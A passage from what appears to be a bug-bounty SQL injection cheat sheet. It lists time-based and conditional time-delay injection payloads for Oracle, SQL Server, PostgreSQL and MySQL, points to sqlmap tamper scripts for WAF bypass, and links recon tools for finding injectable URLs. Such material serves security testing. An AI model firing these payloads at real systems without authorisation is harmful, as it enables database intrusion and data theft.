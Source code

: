 -   1. Use Atlas. It helps suggesting tamper scripts for SQLMAP.

        https://github.com/m4ll0k/Atlas
-   2. JHaddix post on SQLMAP tamper scripts.

        https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423

## 6. Time Delays :

```
      Oracle 	      dbms_pipe.receive_message(('a'),10)

      Microsoft 	  WAITFOR DELAY '0:0:10'

      PostgreSQL 	  SELECT pg_sleep(10)

      MySQL 	      SELECT sleep(10)
```

## 7. Conditional Delays :

```
      Oracle 	      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual

      Microsoft 	  IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'

      PostgreSQL 	  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END

      MySQL 	      SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
```

# Resources and tools that will help gain an upper hand on finding bugs :

-   Portswigger SQL Injection cheat sheet - https://portswigger.net/web-security/sql-injection/cheat-sheet
-   HTTPX - https://github.com/encode/httpx
-   GF patterns - https://github.com/1ndianl33t/Gf-Patterns
-   GF (Tomnomnom)- https://github.com/tomnomnom/gf
-   We can also use gau with waybackurls to fetch all urls.
-   Waybackurls - https://github.com/tomnomnom/waybackurls
-   Gau - https://github.com/lc/gau
-   Arjun - https://github.com/s0md3v/Arjun
-   Hakcrawler - https://github.com/hakluke/hakrawler

### Author :

-   [@xhan1x](https://twitter.com/xhan1x)
